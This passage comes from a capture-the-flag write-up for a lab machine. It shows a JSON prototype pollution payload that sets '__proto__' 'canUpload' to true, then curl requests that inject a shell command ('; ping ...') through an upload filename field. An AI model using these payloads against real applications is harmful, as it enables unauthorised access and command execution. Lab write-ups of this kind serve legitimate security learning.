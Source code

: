 <p>I’ll need a valid user to get by <code class="language-plaintext highlighter-rouge">if (!user)</code>, but I have that. The payload (with spacing) will be:</p>

<div class="language-json highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{</span><span class="w">
  </span><span class="nl">"auth"</span><span class="p">:</span><span class="w"> </span><span class="p">{</span><span class="w">
    </span><span class="nl">"name"</span><span class="p">:</span><span class="w"> </span><span class="s2">"felamos"</span><span class="p">,</span><span class="w"> 
    </span><span class="nl">"password"</span><span class="p">:</span><span class="w"> </span><span class="s2">"Winter2021"</span><span class="w">
  </span><span class="p">},</span><span class="w"> 
  </span><span class="nl">"message"</span><span class="p">:</span><span class="w"> </span><span class="p">{</span><span class="w">
    </span><span class="nl">"test"</span><span class="p">:</span><span class="w"> </span><span class="s2">"something"</span><span class="p">,</span><span class="w">
    </span><span class="nl">"__proto__"</span><span class="p">:</span><span class="w"> </span><span class="p">{</span><span class="w">
        </span><span class="nl">"canUpload"</span><span class="p">:</span><span class="w"> </span><span class="kc">true</span><span class="w">
    </span><span class="p">}</span><span class="w">
  </span><span class="p">}</span><span class="w">
</span><span class="p">}</span><span class="w">
</span></code></pre></div></div>

<p>I’ll do the prototype pollution attack, and now I can access the <code class="language-plaintext highlighter-rouge">upload</code> route:</p>

<div class="language-console wrap highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">oxdf@parrot$</span><span class="w"> </span>curl <span class="nt">-X</span> PUT  http://10.10.10.235:31337/ <span class="nt">-H</span> <span class="s1">'Content-Type: application/json'</span> <span class="nt">-d</span> <span class="s1">'{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'</span>
<span class="go">{"ok":true}

</span><span class="gp">oxdf@parrot$</span><span class="w"> </span>curl <span class="nt">-X</span> POST http://10.10.10.235:31337/upload <span class="nt">-H</span> <span class="s1">'Content-Type: application/json'</span> <span class="nt">-d</span> <span class="s1">'{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "test"}'</span>
<span class="go">{"ok":true,"Uploaded_File":"test"}
</span></code></pre></div></div>

<p>This privilege seems to reset within a few seconds of setting it, so I’ll have to work quickly and re-enable it every few uses.</p>

<h3 id="exploit-command-injection">Exploit Command Injection</h3>

<h4 id="poc">POC</h4>

<p>To see if this works, I’ll put a <code class="language-plaintext highlighter-rouge">; [command]</code> in the filename, and see if the package will execute that command. I always like to start with a <code class="language-plaintext highlighter-rouge">ping</code>. With <code class="language-plaintext highlighter-rouge">tcpdump</code> listening, I’ll send this:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">oxdf@parrot$</span><span class="w"> </span>curl <span class="nt">-X</span> POST http://10.10.10.235:31337/upload <span class="nt">-H</span> <span class="s1">'content-type: application/json'</span> <span class="nt">-d</span> <span class="s1">'{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; ping -c 1 10.10.14.7"}'</span>
<span class="go">{"ok":true,"Uploaded_File":"x; ping -c 1 10.10.14.7"}
</span></code></pre></div></div>
